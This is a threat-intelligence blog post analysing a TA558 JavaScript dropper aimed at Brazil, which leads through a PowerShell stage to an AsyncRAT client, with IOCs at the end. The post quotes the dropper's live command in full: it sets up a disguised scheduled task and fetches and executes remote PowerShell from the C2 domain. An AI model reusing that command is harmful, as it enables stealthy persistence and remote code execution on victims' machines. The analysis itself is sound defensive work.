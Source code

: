 ```yaml
---
title: TA558 Targeting Brazil 
date: 2024-08-26 18:55:00 +0800
categories: [Malware,APT,TA558,Javascript,Dropper,AsyncRAT]
tags: [APT,TA558]
pin: true
---
```


### Introduction
While browsing Bazaar, I stumbled upon a JavaScript sample that piqued my interest, as I've never analyzed one before. Like any curious mind, I downloaded the sample, and it turned out to be one of the most intriguing pieces of code I've examined in a while. This sample is related to TA558, a financially-motivated cybercrime actor primarily targeting the hospitality and travel sectors, especially in Latin America. This current sample has a hijacked C2 domain based in Brazil.

![Brazil](https://i.kym-cdn.com/entries/icons/mobile/000/043/545/cover1.jpg "Brazil")

### JavaScript Analysis
![JS](https://cdn-images-1.medium.com/v2/resize:fit:800/1*kvbrteImG7-Voyyaz6zF2Q.png "JS")

Upon opening the JS file, it initially appears obfuscated, but it's merely a variable named "Microsoft" repeated 1,059 times. After removing the redundant variable and cleaning up the empty lines using regex in VS Code, the script becomes much easier to work with.

![JS](https://cdn-images-1.medium.com/v2/resize:fit:800/1*aKNGcrkuUnU2DwnqxBae5w.png "JS")

Concatenating the strings reveals the following key operations:

- **CDT9...b10b5:** `m.New.WebClient).DownloadString('https://detail-booking.com.br/top.pdf')`
- **codigo2:** `schtasks /create /tn 'MicrosoftEdgeUpdateTaskMachineCoreIE' /tr cmd /c start /min powershell.exe -nologo -command 'iex ((New-Object System.Net.WebClient).DownloadString('https://detail-booking.com.br/top.pdf'))' /SC HOURLY /mo 3 /f`

The main payload executed by the script is:

```powershell
powershell.exe -noexit -ExecutionPolicy Bypass schtasks /create /tn 'MicrosoftEdgeUpdateTaskMachineCoreIE' /tr cmd /c start /min powershell.exe -nologo -command 'iex ((New-Object System.Net.WebClient).DownloadString('https://detail-booking.com.br/top.pdf'))' /SC HOURLY /mo 3 /f
```

The script accomplishes two primary goals:

1. **Fake Popup Creation:** Displays a misleading message, "The file cannot be executed," giving the false impression that the file's execution was blocked for security reasons.
2. **Scheduled Task Creation:** Sets up a task named 'MicrosoftEdgeUpdateTaskMachineCoreIE' that runs every three hours. This task executes a PowerShell command that:
   - Bypasses the execution policy.
   - Downloads a file (`top.pdf`) from `https://detail-booking.com.br`.
   - Executes the downloaded file using PowerShell.

### PDF Analysis
As suspected, the PDF file is not actually a PDF but a PowerShell script. It begins by setting the execution policy to bypass mode, allowing the script to run without restrictions. The script decodes obfuscated binary data into a .NET assembly, which is loaded into memory and executed using system executables like RegSvcs.exe and Msbuild.exe. The script is designed to delete itself after execution.

![PS](https://cdn-images-1.medium.com/v2/resize:fit:800/1*c2C-keeHpI-0JaweopL1Iw.png "PS")

Interestingly, the decryption function is named **kimkarden**, which might be a playful nod to the Kardashians.

The **kimkarden** function decodes an obfuscated binary string into a byte array, which is then used to execute further code. It pads the binary string to ensure it's a multiple of 8 bits, splits it into 8-bit chunks, converts these chunks into bytes, and returns the decoded data. This process transforms encoded data into executable code.

```powershell
$pinch = $binaryData1.split('O')[1].split('l')[0]
$rPinchr = -join $pinch[-1..-($pinch.Length)]
$pinchs = $rPinchr.replace('*', '000000000000000000').replace('-', '111').replace('!', '1000000').replace('^', '100000')
```

- The first line extracts a specific substring from the variable `binaryData1`.
- The second line reverses the extracted substring.
- The third line converts the reversed string into a binary format, preparing it for further decoding.

The next lines decode two different sets of obfuscated binary data, resulting in two byte arrays: **$data1** and **$data2**.

![MS](https://cdn-images-1.medium.com/v2/resize:fit:800/1*QR7rlhptaGlDFaR-XlSI9w.png "MS")

- The assembly from **$data1** is loaded into the variable **${I}**.
- The variable **${E}** encapsulates operations designed to execute a payload using .NET tools, manipulating executable paths and data dynamically.

To extract and analyze these binaries, you can remove the **${E}** method and write them to a location for further investigation.

### Dropped File
After dumping the files, it becomes clear that **$data1** is a helper DLL, and **CDTMUTHALHAI** is the infamous AsyncRAT client. Opening the DLL in dnSpy reveals that it is obfuscated, likely requiring tools like de4dot for deobfuscation.

| DLL | AsyncRAT Client |
|---|---|
| ![DLL](https://cdn-images-1.medium.com/v2/resize:fit:800/1*P6wloBIElNe-j-1_7xAPYQ.png "DLL") | ![ARC](https://cdn-images-1.medium.com/v2/resize:fit:800/1*Gr2HJkrm4cmKMAQbeJzktA.png "ARC") |

![NET](https://cdn-images-1.medium.com/v2/resize:fit:800/1*Wfh6vTNDCdPAFiIaL0v-Ww.png "NET")

- The method named **C** in the DLL is called to run **${V4}, ${V2}, and ${V3}**, which are placeholders for Regsvcs.exe and Msbuild.exe. The method **C** runs a loop for five iterations, calling the function **smethod_2** to dynamically load and execute code from binary data using these executables.

![C](https://cdn-images-1.medium.com/v2/resize:fit:800/1*baYRlUXUe9vXx879PttepQ.png "C")
![smethod](https://cdn-images-1.medium.com/v2/resize:fit:800/1*vbbL_cRIs0cK27uOG55Slw.png "smethod")

- **smethod_2** is a crucial function that ensures the executable operates with the provided binary data, eventually running the AsyncRAT client.

The AsyncRAT client code shows typical behavior with some modifications, including the presence of Chinese characters, likely intended to mislead analysts. However, the targeting of Latin America and the origin of the threat actors seem clear.

# Relations
![Rel](https://cdn-images-1.medium.com/v2/resize:fit:800/1*-pgb6W87JKlaOtDJEmFCYw.png "Rel")

- If you closely look at all these domains you would find these domains have previously been used to host or as C2 for different malware targetting Brazil similarly.
![Rel](https://cdn-images-1.medium.com/v2/resize:fit:800/1*FDNpP2D__kp_IcPxmfUJKw.png "Rel")
- Moreover if you look at these samples you can find that these samples are attributed somehow to a threat actor using Phising as initial way to get in similarly how we see right now and the TTPs also match
![Ref](https://cdn-images-1.medium.com/v2/resize:fit:800/1*bLiyvmP6NdPFHbOD0P2Pdg.png "Ref")

### IOC
```
MD5
878a39b1a17ad10ed89c87508db353c0
SHA-1
ed51f59febba6bd664cd888663706c792095b15d
SHA-256
a7d66996766f77003618bcd786611e68d19e41a4777a7854b5936fcc02e9f349 
RoomingList Equipo Miguel y Chino Joseph Santiago js.js



 DOMAIN
	detail-booking[.]com[.]br
	detail-booking[.]com[.]br/top.pdf

IP
	187.17.111.35
```
[Virustotal](https://www.virustotal.com/gui/file/a7d66996766f77003618bcd786611e68d19e41a4777a7854b5936fcc02e9f349)

[AnyRun](https://app.any.run/tasks/c7240dfe-b9b1-4ebd-957f-ab6847a985bd)

[Bazaar](https://bazaar.abuse.ch/sample/a7d66996766f77003618bcd786611e68d19e41a4777a7854b5936fcc02e9f349/)

Thank You for reading this till the end ❤

Discord somedieyoungzz

Twitter https://twitter.com/IdaNotPro


